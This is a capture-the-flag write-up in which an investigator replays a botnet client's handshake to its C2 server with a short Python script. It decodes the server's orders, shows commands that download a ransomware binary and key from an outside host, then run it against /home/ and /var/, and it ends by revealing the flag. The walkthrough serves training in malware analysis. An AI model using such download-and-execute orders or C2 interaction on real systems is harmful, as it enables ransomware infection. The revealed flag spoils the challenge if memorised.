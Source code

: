 #### Challenge:

Hi executive senior investigator! 

Cool, you have found the malware dropped on target computer.  According to your defined procedure and your previously detected IoC (indicators of compromise), we were able to find other versions of malware in traffic dumps - we assume it is some kind of botnet client. Unfortunatelly, it looks like the C2 server has been meanwhile upgraded and although the server reacts to client's messages, the client can't decode the orders. You should investigate the communication.  [the_connection.tar.xz](./the_connection.tar.xz ":ignore")

Good luck!

---

#### Solution:

- run the client `./botnet_client -ip '78.128.216.92' -p 20210` and inspect the communication in `wireshark`
- it seems that client send the same message to server, so lets try to reply it and decode the server responses

```python
#!/usr/bin/env python3
from pwn import *
import base64


def parse(msg):
    msg = msg[8:].decode('utf-8')
    time = base64.b64decode(msg)[::-1].decode('utf-8').split('jq')[1]
    return bytes.fromhex(time).decode('utf-8')


while True:
    context.log_level = 'error'
    r = remote('78.128.216.92', 20210)
    r.sendline("\x00\x00\x00\x00\x00\x00\x00\x17\x39\x68\x37\x70\x61\x62\x7a\x75\x79\x64\x76\x33\x31\x78\x6a\x71\x3b\x3b\x72\x65\x61\x64\x79")
    msg = parse(r.recv())
    if 'wait;;' not in msg:
        print(msg)
```

```console
download;;http://challenges.thecatch.cz:20102/ransomvid1984.bin;;/tmp/apt-update
download;;http://challenges.thecatch.cz:20102/key1984.RV20;;/tmp/key
execute;;/tmp/apt-update -k /tmp/key -p /home/
execute;;/tmp/apt-update -k /tmp/key -p /var/
```

- check dumped links for flag

```bash
curl http://challenges.thecatch.cz:20102/ransomvid1984.bin
```

---

<details><summary>FLAG:</summary>

```
FLAG{kT0c-WTfc-S326-Jp1A}
```

</details>
<br/>
